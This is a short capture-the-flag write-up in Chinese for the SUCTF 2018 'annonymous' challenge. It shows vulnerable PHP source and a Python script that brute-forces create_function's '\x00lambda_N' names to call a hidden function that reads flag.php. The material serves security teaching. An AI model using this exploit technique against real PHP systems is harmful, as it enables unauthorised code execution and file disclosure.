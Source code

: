 # [SUCTF 2018]annonymous

## 知识点

`create_function函数名`

## 解题

题目给出源码

```php
<?php

$MY = create_function("","die(`cat flag.php`);");
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function SUCTF_$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__);
```

发现需要猜测`create_function`生成的函数名，`create_function`的函数名是有规律的，为`\x00lambda_%d`,`%d`即随机数字，爆破数字获取`flag`

```python
import requests
import time

for i in range(1, 100):
    print(f"try {str(i)}", flush=True)
    resp = requests.get(f'http://a06a64c6-749b-48b8-a4e4-d53e14a1be8d.node5.buuoj.cn:81/?func_name=\x00lambda_{str(i)}')
    if "flag" in resp.text:
        print(resp.text)
    time.sleep(0.5)
```

